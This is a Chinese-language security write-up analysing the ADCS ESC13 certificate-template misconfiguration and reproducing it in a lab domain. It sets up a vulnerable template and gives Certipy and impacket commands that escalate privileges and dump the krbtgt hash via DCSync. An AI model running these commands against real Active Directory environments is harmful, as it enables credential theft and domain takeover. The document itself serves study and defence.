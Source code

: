 

# 滥用 ADCS 进行权限提升——ESC13 详解 - 先知社区

滥用 ADCS 进行权限提升——ESC13 详解

- - -

## 0x1 起因：

​ 自 Will Schroeder（[@harmj0y](https://twitter.com/harmj0y)）和 Lee Christensen（[@tifkin\_](https://twitter.com/tifkin_)）在 2021 年的 BlackHat 大会上发布白皮书以来，ADCS 的攻击面首次系统化的进入人们的视野。[Certified Pre-Owned - Abusing Active Directory Certificate Services](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)这本白皮书可以说是为 ADCS 的利用奠定了各种理论基础。  
​ 随着 ADCS 的利用越加广泛，各种工具层出不穷，其中 Certipy 更是其中的佼佼者，近日在学习 Certipy 的相关代码实现的时候，偶然发现了这样一条 PR

[![](assets/1709090722-2d66abab704b03dd19f26a85f85ebe03.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708914927187-82296929-cb7d-40c9-9870-679ed15f5df5.png#averageHue=%2312171e&clientId=u45251239-0d4a-4&from=paste&height=393&id=uc7a279be&originHeight=589&originWidth=1853&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=79883&status=done&style=none&taskId=uf22aa9a9-573c-4abd-8216-4280825c7a3&title=&width=1235.3333333333333)  
众所周知（应该），在白皮书中一共介绍了 ESC1-ESC8 这 8 种 ESC 命名的攻击手法，后续又补充了[Oliver Lyak](https://medium.com/u/cd3a881c1abc?source=post_page-----fda4272fbd53--------------------------------)提出的[ESC9 和 ESC10](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)、 [Sylvain Heiniger](https://twitter.com/sploutchy)提出的中继到 RPC 的 [ESC11](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)和利用条件比较局限的的[ESC12](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm)，针对这条 PR 附带的[博客文章](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)，我尝试对这个 ESC13 进行分析和复现。

## 0x2 分析：

​ 首先，先上结论：正如标题，这不是一个可以和 ESC1 或者 ESC8 一样可以直接获取域内权限的致命漏洞，它只能算是一个域内权限提升漏洞，提升的权限取决于你错误配置指向的组的权限，且它的限制颇多。  
​ 说的详细一点的话就是，我们可以使用指向给定 AD 组的 OID 组链接的颁发策略来配置证书模板。当我们用这个模板申请证书成功之后，我们利用该证书进行身份验证就可以获取这个组的权限，哪怕我们的用户不在这个组里。

这里面涉及到三个关键：

-   颁发策略
-   指向 AD 组的 OID 组链接
-   使用证书认证

我们对此进行逐步分析

### 证书颁发策略

证书颁发策略是指用于控制证书颁发的一组规则和条件。颁发策略定义了在何种情况下、以何种方式以及向谁颁发证书。  
我们可以打开一个证书模板查看其拓展，可以看到是包括了颁发策略这一部分的，而且当前模板默认是没有值  
[![](assets/1709090722-0991a8f51698a15327aac4c6c585d71a.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708918016197-6a505c5b-2cd3-43a5-8df3-75eeaa1086e7.png#averageHue=%23f8f7f6&clientId=u230a819b-e668-4&from=paste&height=385&id=u18b7d027&originHeight=577&originWidth=915&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=73074&status=done&style=none&taskId=uaa9ddf63-788c-48d2-8836-749b662b67b&title=&width=610)  
我们可以点击编辑添加颁发策略，也可以新建我们自己的颁发策略  
[![](assets/1709090722-38a31ed27d8507eb6ef3bd09cf5bcb2e.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708918078789-58e43ae4-20a1-4eec-a40b-2ccaa9c1c7da.png#averageHue=%23f2f2f1&clientId=u230a819b-e668-4&from=paste&height=323&id=ue8e1c19d&originHeight=484&originWidth=752&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=34866&status=done&style=none&taskId=ucc9890b9-3087-4752-8c27-2c9adeac44b&title=&width=501.3333333333333)  
证书的颁发策略同样是用 OID 进行标志的，它存储在 LDAP 中的 CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=esg-red,DC=local 中，每一个 CN 代表一个 OID 对象  
[![](assets/1709090722-49fb351f2fb7ba5e6b2d6e2aedf1a3d8.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708918442888-84c364a8-d563-42ac-84e4-8e5ffaca90e4.png#averageHue=%23f8f7f6&clientId=u230a819b-e668-4&from=paste&height=465&id=u66ac5de5&originHeight=697&originWidth=1240&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=97131&status=done&style=none&taskId=ub9f1220c-95fd-41ea-b478-d98d6a54b3e&title=&width=826.6666666666666)  
同样我们也可以通过 powershell 来查看

```bash
Get-ADObject -Filter * -SearchBase "CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=esg-red,DC=local" -Properties DisplayName,msPKI-Cert-Template-OID
```

[![](assets/1709090722-c084f4fc78008929577f57fb33d8aa9c.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919300339-9f5a206b-b6ea-4900-a88f-8e35e408f4f7.png#averageHue=%23012456&clientId=u230a819b-e668-4&from=paste&height=553&id=u02de8495&originHeight=829&originWidth=1377&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=52356&status=done&style=none&taskId=u4841601f-7d15-4020-8aa6-b12711fd6ff&title=&width=918)  
注意，上面存储的 OID 是 ADCS 中所有的 OID，而证书模板具有的颁发策略的 OID 则存储在证书模板中的 msPKI-Certificate-Policy 属性中  
[![](assets/1709090722-7f438b309b2ab596b94d455f8bc02366.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919336264-7ebd03a1-f56d-448c-9f27-8d9b598126c6.png#averageHue=%23f3f2f1&clientId=u230a819b-e668-4&from=paste&height=413&id=u41f2738e&originHeight=620&originWidth=1248&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=98683&status=done&style=none&taskId=u38f946fc-5a2c-4e07-a6c3-68728d5223f&title=&width=832)

### OID 组链接

对应 CN=OID 这个容器，我们可以看到它是一个`msPKI-Enterprise-Oid`类，而对于这个类，它存在一个继承 的`msDS-OIDToGroupLink`属性  
[![](assets/1709090722-84de9b1892aafb289c018e13437f4a1c.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919491225-4d2d4819-10d8-47bc-a262-61e48acefbdf.png#averageHue=%23f0eeed&clientId=u230a819b-e668-4&from=paste&height=290&id=u5dd9b8b7&originHeight=435&originWidth=853&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=55336&status=done&style=none&taskId=u98c04447-7256-4952-823f-221391a5c14&title=&width=568.6666666666666)[![](assets/1709090722-d165c73c2d106f66d92316cf1088c68d.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919746008-72eee16a-bdb6-458e-8425-83ef1852a64e.png#averageHue=%23f5f4f2&clientId=u230a819b-e668-4&from=paste&height=511&id=uafe70662&originHeight=766&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=136993&status=done&style=none&taskId=ubfbd46d1-8d5d-4793-b4fe-63a7b7524ab&title=&width=908)  
`msDS-OIDToGroupLink`这个属性便是 ESC13 的关键，它标识了与该 OID 表示的发布策略对应的组对象。换句话说，我们可以利用这个属性将我们的颁发策略和相应的 AD 组链接起来，如果用户利用带有相关颁发策略的证书进行身份验证，那么系统将认为该用户作为 AD 组的成员（即使用户不在该组中），并授予相应的权限。  
[![](assets/1709090722-2bbcffd5e68815397d2162c420056f1e.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708926380028-d7fc811f-edbf-431f-8465-5f682b28e6ff.png#averageHue=%23f9f8f6&clientId=u230a819b-e668-4&from=paste&height=508&id=ua9b6c4e3&originHeight=762&originWidth=1495&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=116127&status=done&style=none&taskId=u4b2539be-8d66-45c6-839a-9a5cbefead8&title=&width=996.6666666666666)  
但是并不是任何组都可以被颁发策略链接的，它需要满足以下要求

1.  必须是 AD 的通用组
2.  组内没有任何成员

当我们设置了`msDS-OIDToGroupLink`属性后，尝试向这个组内添加成员会报错  
[![](assets/1709090722-ec1ae0f46de9415914d9318d2985a7cb.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708926550502-f84963fc-be61-4d20-bff4-73621f708f5a.png#averageHue=%23f9f9f8&clientId=u230a819b-e668-4&from=paste&height=199&id=u52d5d50c&originHeight=298&originWidth=713&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=8675&status=done&style=none&taskId=ub7509b79-0fb6-4d98-baaf-d9521e7e2c8&title=&width=475.3333333333333)

### 证书认证：

前面说到，这是利用证书颁发策略的`msDS-OIDToGroupLink`属性导致的权限滥用，所以我们必须要使用证书进行身份验证才行，也就是说我们的证书模板要支持证书认证。  
我们可以验证一下，我们为 ESCUser13 用户申请具有漏洞的 ESC13 模板证书，我们利用 Rubeus 申请 TGT 票据，并利用 krbtgt 的密钥解密查看 PAC 部分  
[![](assets/1709090722-c3f507ed0cd3e290b24bff0ffb786dc3.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927396119-5839c1ab-91e2-459f-a220-eb8b196a2044.png#averageHue=%23161616&clientId=u230a819b-e668-4&from=paste&height=446&id=u2fdade49&originHeight=669&originWidth=1722&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=64918&status=done&style=none&taskId=uc2e78c56-c46c-4eec-984b-b45ecb469ff&title=&width=1148)  
我们可以看到 ESC13User 除了默认的 513User 组外，没有加入任何其他组  
[![](assets/1709090722-4f8ed94952b070c3f689077ad1e65495.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927501328-ed74ff2d-6af2-4021-bcdf-9a62b0c57cb7.png#averageHue=%230a2c5c&clientId=u230a819b-e668-4&from=paste&height=149&id=ud44fac20&originHeight=223&originWidth=643&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=7801&status=done&style=none&taskId=u84af355c-fc10-4ad4-9ecf-bddb882e95f&title=&width=428.6666666666667)  
但是在我们查看票据的 PAC 的时候，可以看到它拥有着 ESC13Group 这个组的权限  
[![](assets/1709090722-019a1e3f5e0365501cb809b0cde7dc9a.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927428326-cccdbc5c-b312-4857-a0c0-06c57b6b09ac.png#averageHue=%23101010&clientId=u230a819b-e668-4&from=paste&height=545&id=u592a5e9e&originHeight=817&originWidth=1106&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=25041&status=done&style=none&taskId=u8426d23a-c5d9-4c04-be1e-e5a46b4c74d&title=&width=737.3333333333334)  
[![](assets/1709090722-4f0dfcd33acb2e0a96dc736c6f6f2d55.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927549008-cb2c31c4-f35c-4700-9597-5e071f82d9aa.png#averageHue=%23f6f5f4&clientId=u230a819b-e668-4&from=paste&height=447&id=u95811611&originHeight=671&originWidth=1010&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=104050&status=done&style=none&taskId=ued2b311e-90a2-4b2e-b849-953c640204d&title=&width=673.3333333333334)  
而我们利用正常账号密码申请票据，发现只有一个 513User 组  
[![](assets/1709090722-cc8c64e83439aa17273a3cc359bb041d.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927608876-3757adff-588b-4887-a435-91ef37bd7801.png#averageHue=%23151515&clientId=u230a819b-e668-4&from=paste&height=449&id=u727c9d63&originHeight=674&originWidth=1542&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=64381&status=done&style=none&taskId=u2f25f66e-fbb7-420b-b916-b2c6a899d3c&title=&width=1028)  
[![](assets/1709090722-ebaca1239d8e2b741e293dd3814839d3.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927638298-2e4817d8-b3f2-4779-8963-950d48c86871.png#averageHue=%23101010&clientId=u230a819b-e668-4&from=paste&height=507&id=ua756cd20&originHeight=761&originWidth=1059&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=22607&status=done&style=none&taskId=u3135fc9b-52d2-433c-98cf-7c9ea2b9729&title=&width=706)

## 0x3 漏洞复现：

### 配置

搭建域控和 ADCS 的步骤这里不再赘述了  
域控：DC Windows server 2019 Datacenter 10.10.10.128  
ADCS：ADCS Windows server 2019 Datacenter 10.10.10.131  
域名：esg-red.local  
CA 名：esg-red-ADCS-CA  
首先我们新建一个普通用户，确保它没有加入任何其他组

```bash
Get-ADUser ESC13User -Properties MemberOf
```

[![](assets/1709090722-bd7fa2a88d39239d291085d4d8144d8f.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928161501-eb3f13d2-7784-4499-bcaa-12428718e751.png#averageHue=%230b2c5c&clientId=u230a819b-e668-4&from=paste&height=143&id=uc6cb32a2&originHeight=214&originWidth=633&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=6619&status=done&style=none&taskId=u1357ab96-d4ee-47d2-acc0-3bed9341782&title=&width=422)  
然后创建一个通用组，组内没有任何用户  
[![](assets/1709090722-f67690f25f4d5d52bfc2b5b3ffa6dcf4.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928218262-fc69a70a-e671-459d-a346-455b72159b46.png#averageHue=%23f2f0ee&clientId=u230a819b-e668-4&from=paste&height=424&id=u515d51f3&originHeight=636&originWidth=857&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=105988&status=done&style=none&taskId=udbe6c567-ca7a-47d9-962f-c3f6a0d867c&title=&width=571.3333333333334)  
[![](assets/1709090722-6f75e688ee7b83884de47f35b8fadc78.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928234061-d40b41da-a944-4d9e-896c-ba87b20a82f6.png#averageHue=%23efefee&clientId=u230a819b-e668-4&from=paste&height=273&id=u033e9812&originHeight=410&originWidth=540&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=21248&status=done&style=none&taskId=u34b208cf-3176-4030-b02f-039bd0353cd&title=&width=360)  
为了验证权限，我们为这个组设置对域内 DCSync 的权限  
[![](assets/1709090722-c7247cbc7aa4136b773396f0df61fcff.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939042023-6d4bcd88-ace1-48eb-9858-adef0975f270.png#averageHue=%23f5f3f1&clientId=u54327113-d12a-4&from=paste&height=268&id=u6ea25eb4&originHeight=402&originWidth=444&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=28409&status=done&style=none&taskId=u225c02be-e7f1-43f3-8c57-5656257a9f6&title=&width=296)  
接着我们来到我们的 ADCS，在终端中输入`certsrv.msc`打开我们的证书颁发机构，在证书模板这里右键管理打开证书模板控制台，我们可以直接复制现有的模板来创建新的漏洞模板。我们右键工作组身份验证选择复制模板，修改模板名称，在拓展这里双击颁发策略，点击添加  
[![](assets/1709090722-5464d339e7e0ea91c4404b26717c4b38.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928861889-4606c86b-1bbd-42ba-97f6-b6cdfa20d6db.png#averageHue=%23f0f0ef&clientId=u230a819b-e668-4&from=paste&height=372&id=u61fdae3c&originHeight=558&originWidth=558&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=36528&status=done&style=none&taskId=uf2f33612-de83-43de-88aa-808eb49c4ab&title=&width=372)  
我们可以选择现有的颁发策略，也可以直接新建颁发策略，新建时填写名称就行了  
[![](assets/1709090722-60e5a6aad2f2f257f7c153972050ae82.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928921174-ee039622-f217-4b23-9e61-9fe16c88e59e.png#averageHue=%23f1efee&clientId=u230a819b-e668-4&from=paste&height=313&id=ua2093655&originHeight=470&originWidth=880&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=50738&status=done&style=none&taskId=ub0691b52-b435-49c1-983f-434f323bc31&title=&width=586.6666666666666)  
在填完完成之后，点击拓展里的颁发策略，下面会显示已有的策略  
[![](assets/1709090722-b06d1f0133f577f6e12dd504351bd193.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928983194-ff9ed238-b996-4d5a-b66e-daae66536fed.png#averageHue=%23fbfafa&clientId=u230a819b-e668-4&from=paste&height=235&id=u0a3e6489&originHeight=352&originWidth=442&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=12979&status=done&style=none&taskId=u8d624044-f5d6-4d06-b6b8-5f35ec9b5a2&title=&width=294.6666666666667)  
我们需要给予用户对证书的申请权限  
[![](assets/1709090722-eb00556d6bd2f359a817b1e836bd1b37.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929289096-602c22a6-b7d1-41e5-a7a1-f4a79c6ea493.png#averageHue=%23f7f6f5&clientId=u230a819b-e668-4&from=paste&height=423&id=ub6ec8b3c&originHeight=634&originWidth=455&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=32160&status=done&style=none&taskId=ub5c96577-e789-4d3f-8ccd-84f11b93e92&title=&width=303.3333333333333)  
同时还有一个非常重要的一点，我们需要在使用者名称这里，将 DNS 名修改为用户主体名称 (UPN)，因为我们新建的用户是没有 dNSHostName 这个属性的，不更改的话会导致证书申请失败  
[![](assets/1709090722-9ca3b33a1b3114b90cd5b94af6084d57.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929219915-390945d9-f0ad-43d1-807b-d1cb225d8d51.png#averageHue=%23ebeae9&clientId=u230a819b-e668-4&from=paste&height=355&id=u9c926504&originHeight=533&originWidth=439&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=31879&status=done&style=none&taskId=u0bb5d110-bcd2-47d1-860c-8c13d0945b3&title=&width=292.6666666666667)  
我们在终端中输入`adsiedit.msc`打开 ADSI 编辑器，然后连接 AD 的 Configuration  
[![](assets/1709090722-5641b402ac5e92df3a7fa5ac0717d388.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928392356-0b01c427-706e-4ea5-890d-87b54c77794e.png#averageHue=%23f9f8f8&clientId=u230a819b-e668-4&from=paste&height=463&id=uc2b17dfb&originHeight=694&originWidth=1129&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=45598&status=done&style=none&taskId=u62555f8a-69c7-403e-a189-166fbb4bd95&title=&width=752.6666666666666)  
找到我们的 OID 容器，在`CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=esg-red,DC=local`下，找到我们创建的颁发策略，修改其`msDS-OIDToGroupLink`属性为我们创建的通用组  
[![](assets/1709090722-42bb541e757ed639e3f34e19ae454cb6.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928566245-84c4753e-707b-454d-a148-12ae106c2b82.png#averageHue=%23f4f2f0&clientId=u230a819b-e668-4&from=paste&height=427&id=u9520fa4e&originHeight=641&originWidth=955&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=90125&status=done&style=none&taskId=uf0202ba1-d05f-473a-83cd-770b28fc4d5&title=&width=636.6666666666666)

### 利用

我们找到支持 ESC13 的[分支](https://github.com/sploutchy/Certipy/tree/main)下载下来，进入主目录，利用 find 进行简单的信息收集  
可以看到，成功的扫描出了 ESC13 这个漏洞  
[![](assets/1709090722-d79bcec058551259c2513e50d89d5182.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929665639-a7fc218a-4798-4c0a-abb5-04657d27a15d.png#averageHue=%232c2e38&clientId=u230a819b-e668-4&from=paste&height=444&id=ubdd963a8&originHeight=666&originWidth=1450&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=188814&status=done&style=none&taskId=u5ea93e5d-a11a-4ad6-a072-52b5b0d559e&title=&width=966.6666666666666)  
然后我们申请 pfx 证书

```bash
python entry.py req -u 'ESC13User@esg-red.local' -p 'Admin13' -template 'ESC13'  -target adcs.esg-red.local  -ca esg-red-ADCS-CA
```

[![](assets/1709090722-ef6e12396d89eb21cd56da6c02ce548c.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929770957-314ef791-2c51-461f-9e3b-4e1f1b86225b.png#averageHue=%23292b35&clientId=u230a819b-e668-4&from=paste&height=191&id=ufd57e4a9&originHeight=286&originWidth=1644&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=74467&status=done&style=none&taskId=u8eaf06c3-9ea2-48ef-a91a-2d189d53275&title=&width=1096)  
我们利用申请的证书申请 kirbi 类型的票据并将其转化为 Linux 上使用的 ccache 类型

```bash
python entry.py auth -pfx esc13user.pfx -dc-ip 10.10.10.128 -kirbi
impacket-ticketConverter esc13user.kirbi esc13user.ccache
```

[![](assets/1709090722-27fe8596ba192bf350918f8f66e06b85.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939385399-fb4b4920-46ff-4e79-bcb2-39c13f9a0ef4.png#averageHue=%232b2d37&clientId=u54327113-d12a-4&from=paste&height=311&id=ua1ef076f&originHeight=467&originWidth=1299&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=98957&status=done&style=none&taskId=ua27dd07b-2a42-430b-814c-cd16797552a&title=&width=866)  
我们利用 impacket 分支的[describeTicket.py](https://github.com/ThePorgs/impacket/blob/7a0ec36036b9b3339a7a72290f33c243a5e4f0b9/examples/describeTicket.py#L4)脚本解密查看，可以看到确实是存在 2616 这个组的权限

```bash
python aaa.py esc13user.ccache --aes 3c4f06f1b46e0d5d30fe428ce08921964cae205def01fcf3b643dacf40a27983
```

[![](assets/1709090722-5b168e39a58ad7c130f04fa7dedd499e.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939562089-5c4c3e23-d5ee-4173-80e8-889526247687.png#averageHue=%232b2e37&clientId=u54327113-d12a-4&from=paste&height=311&id=u65aaacfe&originHeight=467&originWidth=853&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=88306&status=done&style=none&taskId=u340213bb-4ae4-448c-a60e-c5805a8181b&title=&width=568.6666666666666)  
导入票据

```bash
export KRB5CCNAME=esc13user.ccache
```

[![](assets/1709090722-8c6ff9046aa7ecfddc6fe7fadff6b3fd.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939595985-de6e2e2e-db72-429a-b3fe-4741ac6638d6.png#averageHue=%232d2f39&clientId=u54327113-d12a-4&from=paste&height=211&id=u289cc822&originHeight=316&originWidth=948&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=56631&status=done&style=none&taskId=uda6421e1-922e-4735-8c80-ea6ef2050b2&title=&width=632)  
尝试 DCSync 攻击

```bash
impacket-secretsdump esg-red.local/ESC13User@DC.esg-red.local  -k -no-pass -just-dc-user 'krbtgt' -debug
```

[![](assets/1709090722-09a606c24fae509315c1008f997458a4.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939699045-942d1018-3918-4f21-b05e-77f7aa54852c.png#averageHue=%232d2f39&clientId=u54327113-d12a-4&from=paste&height=496&id=u9d5969be&originHeight=744&originWidth=1469&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=226821&status=done&style=none&taskId=u2de54266-3298-45bc-bea7-be90de2aa25&title=&width=979.3333333333334)

## 0x4 总结：

感觉这个利用属于是”可遇而不可求“，感觉利用限制很多，而且获取的还不一定是高权限组的权限，不过我们可以配合其他漏洞，例如 ESC5 来修改 PKI 的 ACL 等。本篇文章只是暂时分析了一下成因及其简单利用，后续有其他利用姿势欢迎大佬补充，文章有什么错误也欢迎大佬斧正。

![](assets/1709090722-c1a690c3008373b105f447e452f0cfec.gif)滥用 ADCS 进行权限提升——ESC13 详解.pdf (2.004 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240226175734-76ca8aa0-d48d-1.pdf)
